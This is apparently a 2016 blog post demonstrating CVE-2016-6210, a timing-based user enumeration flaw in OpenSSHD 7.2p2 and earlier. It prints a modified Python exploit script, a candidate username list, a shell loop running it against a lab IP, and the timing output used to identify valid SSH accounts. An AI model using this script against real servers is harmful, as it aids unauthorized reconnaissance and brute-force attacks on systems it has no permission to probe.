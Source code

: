 Title:CVE 2016-6210 OpenSSHD user enumeration
Date: 07-21-2016 13:25
category:security
tags:cve, security, exploit, test
meta:cve, security, exploit, test

The 13th if July a new wild CVE appeared (Yes, Pokemon Go is still a buzz for
the moment).

The [CVE 2016-6210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6210)
allow a user enumeration on an SSH server by comparing request time beetween npn
existing user and allowed ones.
This vulnerability target  OpenSSHD with a version of 7.2p2 or inferior.

That means with a good dictionary you may know which user are
present on the server with an SSH access.

This post just demonstrate how to exploit this vulnerability with a simple
example.

<!-- PELICAN_END_SUMMARY -->

## OpenSSHD <= 7.2p2 - User Enumeration

A tiny python script is present on
[exploit-db](https://www.exploit-db.com/exploits/40113/). I had to modify it a
bit in order to pass the username in parameter:

    #!/bin/python
    
    import paramiko
    import time
    import sys
    user = sys.argv[1]
    p='A'*25000
    ssh = paramiko.SSHClient()
    starttime=time.clock()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
             ssh.connect('192.168.4.231', username=user,
             password=p)
    except:
             endtime=time.clock()
    total=endtime-starttime
    print(str(user)+ ": " +str(total))

The script will simply try to connect to `192.168.4.231` with the user passed in
parameter and a password of 25 000 'A' and measure the time of the connection.

We create a simple list of possible user with a non existing user to be able to
compare connection times.

    [maggick@computer_name tmp]$ cat list
    nonExistsingUserForSure
    john
    root
    bob
    user
    alice
    max
    ssh_user

We launch the script against our test server:

    [maggick@computer_name tmp]$ while read l; do ./p.py $l; done < list
    nonExistsingUserForSure: 0.17941999999999997
    john: 0.18687900000000002
    root: 0.18173099999999998
    bob: 0.178726
    user: 0.23088699999999995
    alice: 0.13389600000000002
    max: 0.17069700000000004
    ssh_user: 0.24780699999999997

We can easily see that SSH root login is disallowed, and that the user `user`
and `ssh_user` are allowed to connect to the server using SSH.

As often with brute force, the major issue will be to build the dictionnary but
some tools like [CeWL](https://github.com/digininja/CeWL) from digininja can
help build it.
